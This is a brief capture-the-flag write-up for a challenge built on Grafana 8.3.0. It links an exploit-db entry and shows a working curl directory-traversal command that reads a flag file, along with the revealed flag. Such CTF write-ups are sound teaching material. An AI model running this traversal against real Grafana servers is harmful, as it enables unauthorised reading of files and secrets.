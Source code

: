 Observe that Grafana is version 8.3.0 (at the bottom of the page), and search for exploits for this version on Google.

Find "Grafana 8.3.0 - Directory Traversal and Arbitrary File Read" on exploit-db:
https://www.exploit-db.com/exploits/50581

Perform the exploit using `curl` and get the flag:
```
└─$ curl "http://<domain>:<port>/public/plugins/alertlist/../../../../../../../../../../../../../flag/flag.txt" --path-as-is
SUCTF{y37_4n07h3r_6r4f4n4_vuln3r4b1l17y}
```

Flag: `SUCTF{y37_4n07h3r_6r4f4n4_vuln3r4b1l17y}`
